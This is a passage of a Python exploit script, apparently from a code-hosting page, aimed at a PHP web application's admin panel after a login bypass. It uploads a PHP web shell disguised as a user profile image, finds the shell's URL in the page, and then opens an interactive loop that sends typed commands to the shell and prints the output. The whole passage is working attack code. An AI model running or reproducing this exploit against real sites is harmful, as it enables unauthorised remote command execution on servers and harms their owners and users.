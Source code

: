 ```python linenums="1"
    headers = {"sec-ch-ua": "\";Not A Brand\";v=\"99\", \"Chromium\";v=\"88\"", "Accept": "*/*", "X-Requested-With": "XMLHttpRequest", "sec-ch-ua-mobile": "?0", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryxGKa5dhQCRwOodsq", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Dest": "empty", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
    data = "------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"id\"\r\n\r\n"+ userid +"\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"firstname\"\r\n\r\n"+ firstname +"\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"lastname\"\r\n\r\n"+ lastname +"\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"username\"\r\n\r\n"+ username +"\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"password\"\r\n\r\n\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq\r\nContent-Disposition: form-data; name=\"img\"; filename=\""+ payload_name +"\"\r\nContent-Type: application/x-php\r\n\r\n" + payload_file +"\n\r\n------WebKitFormBoundaryxGKa5dhQCRwOodsq--\r\n"
    upload = session.post(request_url, headers=headers, cookies=cookies, data=data)
    time.sleep(2)

    if upload.text == "1":
        print ("[+] Upload Shell\n")
        time.sleep(2)
        req = session.get(url + "/admin/?page=user")
        parser = BeautifulSoup(req.text, 'html.parser')
        find_shell = parser.find('img', {'id':'cimg'})
        print ("[+] Exploit Done!\n")

        while True:
            cmd = raw_input("$ ")
            headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36'}
            request = requests.post(find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
            print request.text.replace("<pre>" ,"").replace("</pre>", "")
            time.sleep(1)

    elif upload.text == "2":
        print ("[-] Try the manual method")
        request_url = url + "/classes/Login.php?f=logout"
        cookies = session.cookies.get_dict()
        headers = {"sec-ch-ua": "\";Not A Brand\";v=\"99\", \"Chromium\";v=\"88\"", "sec-ch-ua-mobile": "?0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-User": "?1", "Sec-Fetch-Dest": "document", "Accept-Encoding": "gzip, deflate", "Accept-Language": "en-US,en;q=0.9", "Connection": "close"}
        session.get(request_url, headers=headers, cookies=cookies)
    else:
        print("[!]An unknown error")

else:
    print ("[-] Failed to bypass login panel")
```
